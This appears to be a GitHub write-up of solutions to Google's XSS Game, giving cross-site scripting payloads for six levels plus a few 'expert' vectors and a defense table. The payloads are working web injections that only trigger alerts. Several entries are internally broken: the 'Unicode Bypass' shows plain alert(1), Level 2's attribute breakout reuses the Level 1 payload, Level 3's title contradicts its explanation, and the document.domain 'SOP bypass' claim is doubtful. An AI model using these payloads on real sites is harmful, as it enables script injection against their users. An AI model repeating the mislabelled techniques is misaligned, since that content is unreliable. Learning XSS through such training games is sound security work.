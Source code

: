 # 🛡️ XSS Game Challenges: Comprehensive Solutions & Advanced Techniques

## 📑 Table of Contents
- [🌐 Introduction](#-introduction)
- [🏆 Basic Challenges (Levels 1-4)](#-basic-challenges-levels-1-4)
- [🔥 Advanced Challenges (Levels 5-6)](#-advanced-challenges-levels-5-6)
- [💎 Expert Techniques](#-expert-techniques)
- [🛡️ Defense Matrix](#-defense-matrix)
- [🌟 Conclusion](#-conclusion)

---

## 🌐 Introduction

I recently completed an intensive exploration of Cross-Site Scripting (XSS) vulnerabilities through Google's renowned XSS Game. This journey took me from fundamental injection techniques to advanced bypass methods, revealing the intricate art of web context manipulation.

> "Understanding XSS is not about breaking systems - it's about mastering how browsers interpret code to build more secure applications."

Here's my complete walkthrough, ranked by difficulty and technical sophistication:

---

## 🏆 Basic Challenges (Levels 1–4)

### 🥇 Level 1: Simple Tag Injection (Difficulty: ★☆☆☆☆)

```html
<img src=1 onerror=alert(1)>
```

- **Technique**: Basic HTML tag injection with error handler execution  
- **Key Insight**: The page directly renders unsanitized input in HTML context  
- **Defense**: HTML entity encoding or proper tag filtering

---

### 🥇 Level 2: Attribute Context Breakout (Difficulty: ★☆☆☆☆)

```html
<img src=1 onerror=alert(1)>
```

- **Technique**: Reused Level 1 payload in attribute context  
- **Key Insight**: Input placed inside HTML tag attributes without sanitization  
- **Defense**: Attribute value quoting and whitelist-based sanitization

---

### 🥈 Level 3: URL Fragment Manipulation (Difficulty: ★★☆☆☆)

```html
'><img src=1 onerror=alert(1)>
```

- **Technique**: Single quote escape + tag injection  
- **Key Insight**: Breaking out of JavaScript string context into HTML  
- **Defense**: Context-aware output encoding

---

### 🥉 Level 4: JavaScript Context Escape (Difficulty: ★★★☆☆)

```html
');prompt('1
```

- **Technique**: Statement termination and new function call  
- **Key Insight**: Breaking out of string literal in JavaScript execution context  
- **Defense**: JSON encoding for dynamic JavaScript values

---

## 🔥 Advanced Challenges (Levels 5–6)

### 🏅 Level 5: Protocol Handler Exploit (Difficulty: ★★★☆☆)

```html
javascript:alert('1')
```

- **Technique**: `javascript:` URI protocol injection  
- **Key Insight**: Some contexts allow execution through navigation handlers  
- **Defense**: Strict URL validation with protocol whitelisting

---

### 🏅 Level 6: Base64 Data URL Bypass (Difficulty: ★★★★☆)

```bash
echo "alert(1)" | base64
# YWxlcnQoMSkK
```

**Payload**:

```
data:undefined;base64,YWxlcnQoMSkK
```

- **Technique**: Base64-encoded script in data URL  
- **Key Insight**: Bypassing filters through alternative execution vectors  
- **Defense**: Complete block of data URIs in sensitive contexts

---

## 💎 Expert Techniques

### 1. SVG XSS Vector

```html
<svg onload=alert(1)>
```

- **Use Case**: When standard tags are filtered but SVG is allowed

---

### 2. Unicode Bypass

```javascript
alert(1)
```

- **Use Case**: Evading basic keyword detection

---

### 3. Template Literal Exploit

```javascript
${alert(1)}
```

- **Use Case**: Breaking out of template literals

---

### 4. Document.domain Manipulation

```html
<script>document.domain=document.domain;alert(1)</script>
```

- **Use Case**: SOP bypass in some legacy configurations

---

## 🛡️ Defense Matrix

| Vulnerability Type   | Primary Defense           | Secondary Defense               |
|----------------------|---------------------------|----------------------------------|
| HTML Injection       | HTML Entity Encoding      | CSP (Content Security Policy)   |
| Attribute XSS        | Attribute Encoding         | Tag Whitelisting                |
| JavaScript Injection | JavaScript Encoding        | Trusted Types                   |
| URL-based XSS        | URL Validation             | Scheme Whitelisting             |
| DOM-based XSS        | Safe DOM APIs              | Output Encoding                 |

---

## 🌟 Conclusion

Through these challenges, I've developed a three-dimensional understanding of XSS:

- **Technical Dimension**: Mastery of injection techniques across contexts  
- **Psychological Dimension**: Thinking like both attacker and defender  
- **Ethical Dimension**: Using knowledge responsibly to improve web security

> "The best XSS protection comes not from filters, but from understanding execution contexts deeply."

This knowledge forms the foundation for advanced web security research and secure coding practices.  
The journey continues with more complex vulnerabilities and protection mechanisms!

---

### 🏁 Final Ranking of Challenge Difficulty

1. **Level 6** (★★★★☆)  
2. **Level 4** (★★★☆☆)  
3. **Level 5** (★★★☆☆)  
4. **Level 3** (★★☆☆☆)  
5. **Levels 1–2** (★☆☆☆☆)

